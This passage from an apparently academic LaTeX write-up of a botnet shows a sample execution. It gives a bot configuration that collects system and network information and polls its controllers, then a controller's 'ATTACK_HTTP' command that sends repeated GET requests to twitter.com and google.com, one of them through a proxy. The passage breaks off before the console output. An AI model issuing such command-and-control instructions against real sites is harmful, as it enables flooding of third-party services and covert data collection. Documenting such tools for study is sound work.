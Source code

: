 \subsection{Sample execution}
\label{sec:sample-execution}

We show here a sample execution to give the reader an idea about how everything works. We suggest the reader to refer to \cite{video-tutorial} to better undesrtand how configuration and commands could be conveniently generated.

In thi example, the bot is run in default mode with the following configuration:

\begin{verbatim}
  cnfInfo: True
  tgtInfo: True
  sysInfo: True
  netInfo: True
  controllers:
    - init: invalid/botinit.json
      command: invalid/botcmd.json
      log: invalid/botlog.json
    - init: controller/botinit.json
      command: controller/botcmd.json
      log: controller/botlog.json
  polling: 90-120:SECONDS
  reconnections: 3
  reconnectionWait: 2-5:SECONDS
  proxy: none
  userAgent: MyAwesomeBot
\end{verbatim}

Notice that the first specified controller is an invalid one - it mimics an unrecheable or compromised contoller.
The controller gives the bot the following \texttt{ATTACK-HTTP} command:

\begin{verbatim}
  {
    "command": "ATTACK_HTTP",
    "attacks": [
      {
        "method": "GET",
        "target": "http://www.twitter.com"
      },
      {
        "method": "GET",
        "target": "http://www.google.com",
        "proxy": "31.220.56.101:80",
        "properties": {
          "User-Agent": "MyAwesomeBot"
        },
        "executions": 3,
        "period": "10-15:SECONDS"
      }
    ]
  }
\end{verbatim}

followed by commands \texttt{REPORT} and \texttt{KILL}.
The following is the console output\footnote{classes and methods name indicated in \ref{sec:logging} have been omitted for better page formatting.}:

